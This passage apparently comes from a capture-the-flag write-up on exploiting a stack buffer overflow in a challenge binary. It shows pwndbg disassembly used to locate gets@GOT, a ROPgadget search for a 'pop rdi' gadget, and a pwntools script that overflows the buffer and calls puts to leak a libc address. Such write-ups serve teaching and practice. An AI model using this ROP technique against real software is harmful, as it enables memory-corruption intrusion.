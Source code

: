 By disassembling `main()`, we can find our `puts@plt: 0x401050` and `gets@plt: 0x401060`.

The `GOT` is stored in the `PLT`. So in order to find `gets@GOT` we examine the instructions at `gets@PLT`.

```
pwndbg> x/3i 0x401060

   0x401060 <gets@plt>: endbr64
   0x401064 <gets@plt+4>:       bnd jmp QWORD PTR [rip+0x2fb5]        # 0x404020 <gets@got.plt>
   0x40106b <gets@plt+11>:      nop    DWORD PTR [rax+rax*1+0x0]

```

As you can see, our `gets@got: 0x404020`.

Now we need a `POPRDI` gadget in order to put an argument into `puts()`.

```bash
➜ ROPgadget --binary chall | grep 'pop rdi'
0x00000000004011f3 : pop rdi ; ret
```

Now we have all our pieces.

<br>

#### Script 1:

Let's write a script and try it out;

```py
from pwn import *

p = process('./chall')

OFFSET = 0x100 + 8 # 0x100 is size of our variable, 8 is our saved rbp
PUTSPLT = 0x401050
GETSGOT = 0x404020
POPRDI = 0x4011f3

payload = b"A" * OFFSET
payload += p64(POPRDI) + p64(GETSGOT) # place GETSGOT into RDI
payload += p64(PUTSPLT) # call puts(GETSGOT)

p.sendline(payload)
p.interactive()
```
